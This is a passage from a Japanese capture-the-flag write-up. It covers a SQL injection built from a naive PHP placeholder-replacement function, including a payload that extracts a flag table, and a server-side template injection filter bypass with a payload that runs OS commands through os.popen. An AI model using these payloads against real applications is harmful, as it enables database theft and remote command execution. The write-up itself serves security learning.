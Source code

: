 ```php
<?php
function query($sql, $param = array()) {
    $search = [];
    $replace = [];
    foreach ($param as $key => $value) {
        $search[] = $key;
        $replace[] = sprintf("'%s'", $value);
    }
    $sql = str_replace($search, $replace, $sql);
    return $sql;
}
$user_id = '/*testtest:notes*/,0,0,12345);#';
echo query(
    "INSERT INTO account (user_id, debit, credit, notes) VALUES (:user_id, 0, 12345, :notes)",
    [':user_id' => $user_id, ':notes' => "$user_id remitted"]
); // => INSERT INTO account (user_id, debit, credit, notes) VALUES ('/*testtest'/*testtest:notes*/,0,0,12345);# remitted'*/,0,0,12345);#', 0, 12345, '/*testtest:notes*/,0,0,12345);# remitted')
```

コメント部分を除くと `INSERT INTO account (user_id, debit, credit, notes) VALUES ('/*testtest',0,0,12345);` のようになっており、SQLi が起こっているのが分かります。

これを利用して、`flag1` というテーブルに存在しているフラグを抽出します。`/*testtest:notes*/,0,0,(select flag1 from flag1));#` `/*testtest` の 2 つのアカウントを作成し、後者から前者に送金を行うとフラグが得られました。

```
CBCTF{If_You_w4n7_a_fL46,_W0rk_4nd_34rn_m0N3y}
```

## [Web+Pwn] CODE BLUE Online Judge
### FLAG1 (355 pts)

配布されたソースコードの `cobj/views.py` を見ると、提出されたコードは以下のように置換されることが分かります。

```python
        tags = ['{% raw %}{{{% endraw %}', '{% raw %}{%{% endraw %}', '{#']
        for tag in tags:
            code = code.replace(tag, "{% raw %}{{{% endraw %} '%s' }}"%tag)

        banner = """
// @author: {% raw %}{{ username }}{% endraw %}
"""[1:-1]

        code = banner + '\n' + code
```

`\x7b{ 1+2 }}` という内容のコードを提出して置換された後のコードを見ると、`3` に変わっているのが確認できます。これで上記の置換は `{` をエスケープすることでバイパスでき、また Server-Side Template Injection が可能なことが分かります。

[A python's escape from PlaidCTF jail · @wapiflapi](http://wapiflapi.github.io/2013/04/22/plaidctf-pyjail-story-of-pythons-escape/) を参考に OS コマンドを実行するペイロードを書くと以下のようになりました。

```python
\x7b% for x in ().__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings' %}
  \x7b{ (x.__repr__.im_func.func_globals)['linecache'].os.popen('ls').read() }}
\x7b% endfor %}
```
